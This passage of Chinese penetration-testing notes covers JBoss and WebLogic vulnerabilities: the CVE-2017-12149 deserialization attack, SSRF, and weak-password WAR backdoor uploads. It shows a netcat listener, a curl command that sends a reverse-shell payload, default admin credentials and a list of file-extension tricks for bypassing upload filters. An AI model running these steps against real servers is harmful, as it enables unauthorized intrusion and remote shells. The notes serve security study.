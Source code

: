 修复：修改一些配置文件

## jboss

### （1）  反序列化漏洞（HttpInvoker 组件（CVE-2017-12149））

原理：存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了攻击者可以在服务器上执行任意代码。

漏洞验证

访问/invoker/readonly，返回500，说明此页面存在反序列化漏洞

过程：

开两个终端，一个进行监听（nc -lvnp 12345），另一个发payload

curl http://192.168.50.169:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser

（@不能省略）

最后，成功反弹shell

### （2）  弱口令+war后门文件部署

原理：admin/admin弱口令登录后台，点击add a new resource上传war包，连马即可

防御：改强密码；删除admin-console页面

## weblogic

### （1）  弱口令+war后门文件部署

原理：通过弱口令（weblogic/Oracle@123）登录管理台后，点击部署，安装，上传war包

### （2）  反序列化

原理：Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

### （3）  SSRF漏洞

原理：Oracle WebLogic Web Server既可以被外部主机访问，同时也允许访问内部主机。

过程：比如有一个jsp页面SearchPublicReqistries.jsp，我们可以利用它进行攻击，未经授权通过weblogic server连接任意主机的任意TCP 端口，可以能冗长的响应来推断在此端口上是否有服务在监听此端口，进而攻击内网中redis、fastcgi等脆弱组件。

# 3.绕过思路

```
【IIS】
ASP：asa、cer、cdx
ASPX：ashx、asmx、ascx、esms、asp,aspx,asa,asax,ascx,ashx,asmx,cer,aSp,aSpx,aSa,aSax,aScx,aShx,aSmx,cEr
【Apache】
PHP：php4、php5、phtml、php,php5,php4,php3,php2,pHp,pHp5,pHp4,pHp3,pHp2,html,htm,phtml,pht,Html,Htm,pHtml
[tomcat]
JSP：jspx、jspf、jsp,jspa,jspx,jsw,jsv,jspf,jtml,jSp,jSpx,jSpa,jSw,jSv,jSpf,jHtml

复写绕过:pphphp
```
